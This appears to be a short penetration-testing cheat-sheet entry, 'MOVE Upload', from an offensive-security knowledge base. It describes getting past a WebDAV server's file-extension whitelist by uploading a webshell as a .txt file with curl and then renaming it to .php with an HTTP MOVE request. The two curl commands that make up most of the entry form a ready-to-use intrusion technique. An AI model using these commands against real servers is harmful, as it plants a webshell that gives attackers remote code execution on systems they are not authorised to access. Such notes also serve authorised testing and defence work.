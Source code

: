 # MOVE Upload

When you encounter webdav that has configured with whitelisted file extensions. Using the `MOVE` HTTP method can be renamed after uploading the webshell.

```
$ curl -T 'webshell.txt' http[s]://<IP>

$ curl -v -X MOVE 'http://10.0.0.1/webshell.txt' --header 'Destination: http://<IP>/webshell.php'
```

---
## References

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/HTTP/PUT Upload/Manual]]